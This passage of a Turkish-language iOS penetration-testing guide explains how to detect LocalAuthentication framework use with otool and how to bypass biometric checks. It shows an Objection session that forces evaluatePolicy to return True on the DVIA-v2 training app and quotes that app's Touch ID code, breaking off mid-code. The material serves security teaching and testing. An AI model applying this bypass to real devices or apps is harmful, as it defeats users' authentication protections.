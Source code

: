### Tespit

Bir uygulamadaki çerçevelerin kullanımı, uygulama ikili dosyasının paylaşılan dinamik kütüphaneler listesinin analiz edilmesiyle de tespit edilebilir. Bu, `otool` kullanılarak yapılabilir:
```bash
$ otool -L <AppName>.app/<AppName>
```
Eğer bir uygulamada `LocalAuthentication.framework` kullanılıyorsa, çıktı aşağıdaki iki satırı da içerecektir (unutmayın ki `LocalAuthentication.framework` arka planda `Security.framework` kullanır):
```bash
/System/Library/Frameworks/LocalAuthentication.framework/LocalAuthentication
/System/Library/Frameworks/Security.framework/Security
```
Eğer `Security.framework` kullanılıyorsa, yalnızca ikincisi gösterilecektir.

### Yerel Kimlik Doğrulama Çerçevesi Atlatma

#### **Objection**

**Objection Biometrics Bypass** aracılığıyla, [bu GitHub sayfasında](https://github.com/sensepost/objection/wiki/Understanding-the-iOS-Biometrics-Bypass) bulunan bir teknik, **LocalAuthentication** mekanizmasını aşmak için mevcuttur. Bu yaklaşımın temeli, `evaluatePolicy` fonksiyonunu manipüle etmek için **Frida** kullanmaktır; bu sayede, gerçek kimlik doğrulama başarısından bağımsız olarak sürekli olarak `True` sonucu elde edilir. Bu, hatalı biyometrik kimlik doğrulama süreçlerini aşmak için özellikle faydalıdır.

Bu atlatmayı etkinleştirmek için aşağıdaki komut kullanılır:
```bash
...itudehacks.DVIAswiftv2.develop on (iPhone: 13.2.3) [usb] # ios ui biometrics_bypass
(agent) Registering job 3mhtws9x47q. Type: ios-biometrics-disable
...itudehacks.DVIAswiftv2.develop on (iPhone: 13.2.3) [usb] # (agent) [3mhtws9x47q] Localized Reason for auth requirement: Please authenticate yourself
(agent) [3mhtws9x47q] OS authentication response: false
(agent) [3mhtws9x47q] Marking OS response as True instead
(agent) [3mhtws9x47q] Biometrics bypass hook complete
```
Bu komut, Objection'ın `evaluatePolicy` kontrolünün sonucunu `True` olarak etkili bir şekilde değiştiren bir görevi kaydettiği bir dizi başlatır.

#### Frida

**`evaluatePolicy`** kullanımına bir örnek [DVIA-v2 uygulamasından](https://github.com/prateek147/DVIA-v2):
```swift
+(void)authenticateWithTouchID {
LAContext *myContext = [[LAContext alloc] init];
NSError *authError = nil;
NSString *myLocalizedReasonString = @"Please authenticate yourself";

if ([myContext canEvaluatePolicy:LAPolicyDeviceOwnerAuthenticationWithBiometrics error:&authError]) {
[myContext evaluatePolicy:LAPolicyDeviceOwnerAuthenticationWithBiometrics
localizedReason:myLocalizedReasonString
reply:^(BOOL success, NSError *error) {
if (success) {
dispatch_async(dispatch_get_main_queue(), ^{
[TouchIDAuthentication showAlert:@"Authentication Successful" withTitle:@"Success"];
});
} else {
dispatch_async(dispatch_get_main_queue(), ^{
[TouchIDAuthentication showAlert:@"Authentication Failed !" withTitle:@"Error"];
});
}
}];
} else {
dispatch_async(dispatch_get_main_queue(), ^{
```